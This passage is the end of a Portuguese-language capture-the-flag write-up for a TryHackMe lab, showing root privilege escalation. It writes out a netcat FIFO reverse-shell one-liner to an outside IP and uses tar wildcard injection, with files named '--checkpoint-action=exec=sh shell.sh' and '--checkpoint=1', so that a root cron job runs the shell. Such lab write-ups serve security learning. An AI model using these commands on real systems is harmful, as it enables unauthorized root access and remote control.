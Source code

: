 Agora precisamos criar o script que irá fazer a conexão reversa na nossa máquina alvo.

```bash
spooky@anonymous-playground:/home/spooky$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.0.26 8443 >/tmp/f" > shell.sh
```
Agora adicionamos a ação do nosso checkpoint, que será executar nosso script.

```bash
spooky@anonymous-playground:/home/spooky$ echo "" > "--checkpoint-action=exec=sh shell.sh"
```
E por fim, adicionamos o checkpoint de fato.

```bash
spooky@anonymous-playground:/home/spooky$ echo "" > --checkpoint=1
```

Após um minuto, a cron irá rodar e nos dar o reverse shell com `root`.

<img src="/img/thm/thm-anonymousplayground-14.png">

E conseguimos o shell com `root`.

A terceira `flag.txt` se encontra em `/root`.

### Conclusão

Esta máquina foi bem divertida, pois teve uma variedade de ações entre criptografia, buffer overflow, movimento lateral, wildacrd injection...
É o tipo de trabalho que nos força a `sair da caixa`.

<br>

E comprometemos o server!!
<br>

<img src="/htb/hackerman.gif">



